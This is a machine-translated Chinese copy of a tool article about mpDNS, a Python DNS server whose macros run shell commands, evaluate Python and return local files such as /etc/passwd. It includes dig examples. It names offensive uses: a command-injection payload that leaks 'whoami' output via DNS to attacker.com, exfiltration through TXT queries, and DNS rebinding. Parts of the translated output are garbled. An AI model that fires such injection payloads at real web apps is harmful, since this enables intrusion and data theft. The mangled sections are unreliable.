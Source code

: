 # mpDNS:多用途 DNS 服务器 2019

> 原文：<https://kalilinuxtutorials.com/mpdns-multi-purpose-dns-server/>

[![mpDNS : Multi-Purpose DNS Server 2019](img/4d933de9458e34856ee9de9dd223b3b3.png "mpDNS : Multi-Purpose DNS Server 2019")](https://1.bp.blogspot.com/-qVUXWLPBjgI/XXS8LaFCsKI/AAAAAAAACYw/h_5lnAwiL2oZLuLHIr3moqlh4H2Qn9FCwCLcBGAs/s1600/mpDNS%2B%25281%2529.png)

**mpDNS** 又名多用途 DNS 服务器是一个简单、可配置的“**克隆&运行**DNS 服务器，具有多种有用的功能。

*   应该在 Python 2 和 3 上工作
*   names.db ->保存所有定制记录(参见示例)
*   简单通配符，如*.example.com
*   捕获 unicode dns 请求
*   自定义操作也称为宏:
    *   `**{{shellexec::dig google.com +short}}**` *- >执行 shell 命令并响应结果*
    *   `**{{eval::res = '1.1.1.%d' % random.randint(0,256)}}**` *- >评估你的 python 代码*
    *   `**{{file::/etc/passwd}}**` *- >响应本地文件内容*
    *   `**{{resolve}}**` *- >将 DNS 请求转发到本地系统 DNS*
    *   `**{{resolve::example.com}}**` *- >解决 example.com 而不是原始记录*
    *   `**{{echo}}**` *- >用对等地址回复*
    *   `**{{shellexec::echo %PEER% %QUERY%}}**` *- >变量的使用*
*   支持的查询类型:`A`、`**CNAME**`、**、**、`**TXT**`
*   使用`**./mpdns.py -e**`更新`**names.db**`记录，无需重启/重新加载

大量基于[https://github . com/circuits/circuits/blob/master/examples/DNS server . py](https://github.com/circuits/circuits/blob/master/examples/dnsserver.py)

用法:`**./mpdns.py**`

*   用`**./mpdns.py -e**`编辑 **names.db** 不需要重启

**进攻和防守目的**

*   您需要一个轻量级的简单 dns 服务器解决方案用于测试目的(不是生产！)
*   测试 web 应用程序中的各种盲目注入漏洞*(例如。* `**/ping.php?ip=$(dig $(whoami).attacker.com)**` *)*
*   在一个`TXT`查询中轻松渗透 65K 数据
*   DNS 重新绑定
*   对特定查询执行自定义宏操作(在恶意软件分析实验室环境中很有用)
*   还有更多。它是高度可定制的。

**安装**

**git 克隆 https://github.com/nopernik/mpDNS**

**局限性**

*   由于 UDP 数据报限制为 65535 字节，DNS 响应被限制为大约 65200 字节
    ，这一限制适用于被分割成 256 字节块的`TXT`记录，直到响应达到最大允许值 65200 字节
    ，因此带有宏`**{{file:localfile.txt}}**`的`TXT`记录被限制为 65200 字节。
*   不支持嵌套通配符 **`test.*.example.com`**
*   在`**{{resolve::example.com}}**`宏中不支持自定义 DNS 服务器解析器
*   `**TTL**`始终设置为 **0**

**也可阅读-[Http 请求走私者:为打嗝套件](https://kalilinuxtutorials.com/http-request-smuggler-extension-burp-suite/)扩展 **

**例子**

**names.db 示例:**

**> >空配置将导致空但有效的响应
> > Unicode 域名不受支持，但仍可被服务器捕获。
> >例如мама-сервер-unicode.google.com 将被捕获，但带有 SERVFAIL 响应**
passwd.example.com TXT { { file::/etc/passwd } } #注释被忽略
shellexec TXT { { shellexec::whoami } }
eval TXT { { eval::import random；RES = random . randint(1500)} }
resolve 1a { { resolve } }
resolve 2a { { resolve::self } } #同上
resolve 3a { { resolve::example . com } }
blabla.com A 5.5.5.5
* A 127 . 0 . 0 . 1
* . example . com A 7.7.7.7
c1.example.com CNAME c2.example.com
c2.example.com CNAME c3.example.com
c3.example.com CNAME Google . example . com【T11

**带有 names.db 示例的示例输出:**

来自数据库的常规解析:dig test.example.com @ localhost

；；回答章节:
test.example.com。0 在 8.8.8.8

mpDNS 输出:–**来自 127 . 0 . 0 . 1:57698-【test.example.com 的请求。——>8.8.8.8(一)**

递归 CNAME 分解:`**dig c1.example.com @localhost**`

；；问题板块:
；c1.example.com .在一个

；；回答部分:
c1.example.com。0 在 c2.example.com CNAME。【c2.example.com】T4。0 在 c3.example.com CNAME。
c3.example.com。0 在 google.example.com CNAME。
google.example.com。0 在 google.com CNAME。
google.com。0 在 216.58.206.14

**mpDNS 输出:**

>>请求来自 127 . 0 . 0 . 1:44120-> c1.example.com。-> c2.example.com(CNAME)
>>请求从 127 . 0 . 0 . 1:44120->c2.example.com->c3.example.com(CNAME)
>>请求从 127 . 0 . 0 . 1:44120->c3.example.com->google.example.com(CNAME)
>>请求从 127 . 0 . 0 . 1:44120->google.example.com->google.com(CNAME

**通配符解析:dig not-in-db.com @ localhost**

；；回答章节:
not-in-db.com。127.0.0.1 中的 0

mpDNS 输出:–**来自 127 . 0 . 0 . 1:38528-【not-in-db.com 的请求。- > 127.0.0.1 (A)**

**通配符子域解析:dig wildcard.example.com @ localhost**

；；回答章节:
wildcard.example.com。0 在 7.7.7.7

mpDNS 输出:–**来自 127 . 0 . 0 . 1:39691-【wildcard.example.com 的请求。——>7.7.7.7(一)**

**转发请求宏:dig google.com @ localhost**

；；回答章节:
google.com。0 在 172.217.22.110

mpDNS 输出:–**来自 127 . 0 . 0 . 1:53487-【google.com 的请求。- > {{resolve::self}}(一)**

自定义域宏的转发请求:dig notgoogle.com @ localhost

；；回答章节:
notgoogle.com。0 在 172.217.22.110

mpDNS 输出:–**来自 127 . 0 . 0 . 1:47797-【notgoogle.com 的请求。- > {{resolve::google.com}}(一)**

**通过 TXT 查询文件内容宏:dig TXT passwd.example.com @ localhost**

；；回答章节:
passwd.example.com。0 IN TXT " root:x:0:0:root:/bin/bash \ 010 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin \ 010 bin:x:2:2:bin:……stripped "

mpDNS 输出:–**来自 127 . 0 . 0 . 1:38805->passwd.example.com 的请求。->**[**' root:x:0:0:root…(2808)'**](TXT)

通过 TXT 查询定制 python 代码宏:dig txt eval @localhost

；；回答部分:
eval。TXT“320”中的 0

mpDNS 输出:–**来自 127.0.0.1 的请求:33821 - > eval。->**[**【320】**](TXT)

通过 TXT 查询的 Shell 命令宏:dig txt shellexec @localhost

；；回答部分:
shellexec。TXT“root”中的 0

mpDNS 输出:–**来自 127.0.0.1:50262 - > shellexec 的请求。- >** [**【根】**](TXT)

[Download](https://github.com/nopernik/mpDNS)
